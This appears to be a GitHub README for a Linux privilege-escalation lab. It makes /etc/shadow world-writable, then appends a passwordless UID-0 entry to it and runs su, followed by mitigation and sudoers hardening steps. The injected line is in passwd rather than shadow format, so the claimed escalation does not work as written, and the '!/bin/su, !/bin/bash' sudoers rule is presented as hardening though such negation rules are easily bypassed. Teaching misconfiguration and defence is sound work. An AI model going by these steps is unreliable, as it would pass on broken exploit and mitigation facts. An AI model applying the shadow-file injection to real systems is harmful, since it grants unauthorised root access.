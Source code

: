 # POC-TASKS
# 📌 Linux Security - Exploitation & Defense (PoC)

This repository demonstrates **security vulnerabilities** in Linux systems related to **user and permission misconfigurations**, along with their **exploitation and mitigation** techniques.

---

## 🔹 **Task 1: User & File Permission Weaknesses**

### ✅ **Step 1: Setting Up Vulnerable User & Permissions**

```bash
# Creating a test user CSK
┌──(kali㉿kali)-[~/lab]
└─$ sudo useradd CSK

# Assigning a weak password
┌──(kali㉿kali)-[~/lab]
└─$ echo "CSK:12345" | sudo chpasswd

# Verify user creation
cat /etc/passwd | grep "CSK"

# Check access settings of sensitive files
┌──(kali㉿kali)-[~/lab]
└─$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1722 Mar 17 19:11 /etc/shadow

# Set insecure file permissions (Major Security Risk!)
┌──(kali㉿kali)-[~/lab]
└─$ sudo chmod 777 /etc/shadow

# Validate permission modifications
┌──(kali㉿kali)-[~/lab]
└─$ ls -l /etc/shadow         
-rwxrwxrwx 1 root shadow 1722 Mar 17 19:11 /etc/shadow
```

---

### ✅ **Step 2: Exploiting the Weak Permissions**

```bash
# Switch to the low-privileged user
┌──(kali㉿kali)-[~]
└─$ su - CSK
Password: 12345

# Attempt to access restricted files
$ cat /etc/shadow

# Inject a new root-level user into the shadow file
$ echo "attacker::0:0::/:/bin/bash" | tee -a /etc/shadow

# Gain elevated privileges
su
```

---

### ✅ **Step 3: Fixing the Security Flaws**

```bash
# Restore proper permissions on the shadow file
sudo chmod 640 /etc/shadow
sudo chown root:shadow /etc/shadow

# Verify the applied security settings
ls -l /etc/shadow
```

---

### ✅ **Step 4: Strengthening Sudo Privileges**

```bash
# Secure sudo access settings
sudo visudo
```

**Restrict CSK from escalating privileges** by adding:
```plaintext
CSK ALL=(ALL) !/bin/su, !/bin/bash
```

## 📌 Summary of Task 1  

| **Step**             | **Action**                                         | **Command**                                  |
|----------------------|---------------------------------------------------|---------------------------------------------|
| 🔹 **Setup**         | Create user **CSK**                                | `sudo useradd CSK` |
|                     | Assign a weak password                             | `echo "CSK:12345" | sudo chpasswd` |
|                     | Validate user creation                             | `cat /etc/passwd | grep CSK` |
|                     | Check file permissions                             | `ls -l /etc/shadow /etc/passwd` |
|                     | Apply insecure file access settings                | `sudo chmod 777 /etc/shadow` |
|                     | Confirm modified permissions                       | `ls -l /etc/shadow` |
| 🔹 **Exploitation**  | Switch to **CSK** (unprivileged user)              | `su - CSK` |
|                     | Attempt to access restricted files                 | `cat /etc/shadow`<br>`cat /etc/passwd` |
|                     | Inject malicious entry into `/etc/shadow`          | `echo "attacker::0:0::/:/bin/bash" | tee -a /etc/shadow` |
|                     | Elevate privileges                                 | `su` |
| 🔹 **Mitigation**    | Restore correct file access controls               | `sudo chmod 640 /etc/shadow`<br>`sudo chown root:shadow /etc/shadow` |
|                     | Verify secure configuration                        | `ls -l /etc/shadow` |
| 🔹 **Sudo Hardening**| Edit sudoers configuration                        | `sudo visudo` |
|                     | Restrict **CSK** from privilege escalation         | Add the following in `visudo`:<br>`CSK ALL=(ALL) !/bin/su, !/bin/bash` |

---

### -----------------------------------------------END OF TASK 1----------------------------------------
